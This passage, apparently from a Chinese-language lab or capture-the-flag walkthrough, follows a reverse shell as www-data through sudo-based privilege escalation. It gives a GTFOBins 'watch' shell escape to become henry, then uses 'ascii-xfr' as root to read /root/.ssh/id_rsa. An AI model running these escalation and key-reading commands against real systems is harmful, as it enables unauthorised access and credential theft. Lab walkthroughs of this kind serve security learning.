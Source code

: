 ```
http://10.0.0.105/advanced-search/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，但是没有获取到root权限，用www-data权限找找提权信息

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现watch命令以henry权限访问不需要密码，先看看watch是什么

```
sudo -u henry /usr/bin/watch
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

好像可以执行程序，找一下如何提权

```
https://gtfobins.github.io/gtfobins/watch/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

知道如何提权了，执行payload(需要先切换到交互式shell)

```
sudo -u henry /usr/bin/watch -x sh -c 'reset; exec sh 1>&0 2>&0'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提权成功，切换下交互式shell，然后找找提权信息

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到以root身份执行ascii-xfr命令不需要密码，再来看看这个命令如何提权

```
https://gtfobins.github.io/gtfobins/ascii-xfr/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以读取文件，猜一下root帐号下有没有id_rsa文件

```
sudo ascii-xfr -ns /root/.ssh/id_rsa
```
